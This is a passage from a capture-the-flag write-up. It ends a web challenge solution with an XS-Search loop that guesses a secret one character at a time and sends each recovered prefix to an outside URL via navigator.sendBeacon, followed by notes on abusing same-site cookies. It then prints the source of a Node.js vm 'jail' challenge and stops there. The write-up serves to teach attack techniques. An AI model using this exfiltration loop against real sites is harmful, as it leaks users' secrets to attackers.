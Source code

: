 ``` html
        navigator.sendBeacon(url + "?go");
        while (true) {
            for (let c of alphabet) {
                let query = known + c;
                if (await search(query)) {
                    navigator.sendBeacon(url, query);
                    known += c;
                    break;
                }
            }
        }
    };
</script>
```

There are a few details to note here:

1. If the request is too large, the server will return an error.
2. Because it is the same site, the `<script>` will automatically bring cookies when sending requests.
3. Use the event of the script to detect whether the http status code is successful.

The reason why I was stuck at the beginning was:

1. I didn't expect to use other questions to bypass the same site cookie.
2. I didn't notice that the request URL was also included in the length, and only thought of the header/body.

## misc/CaaSio PSE

This question is a very strict js jail, and the question looks like this:

``` js
#!/usr/local/bin/node

// flag in ./flag.txt

const vm = require("vm");
const readline = require("readline");

const interface = readline.createInterface({
    input: process.stdin,
    output: process.stdout,
});

interface.question(
    "Welcome to CaaSio: Please Stop Edition! Enter your calculation:\n",
    function (input) {
        interface.close();
        if (
            input.length < 215 &&
            /^[\x20-\x7e]+$/.test(input) &&
            !/[.\[\]{}\s;`'"\\_<>?:]/.test(input) &&
            !input.toLowerCase().includes("import")
        ) {
            try {
                const val = vm.runInNewContext(input, {});
                console.log("Result:");
                console.log(val);
                console.log(
                    "See, isn't the calculator so much nicer when you're not trying to hack it?"
                );
            } catch (e) {
                console.log("your tried");
            }
```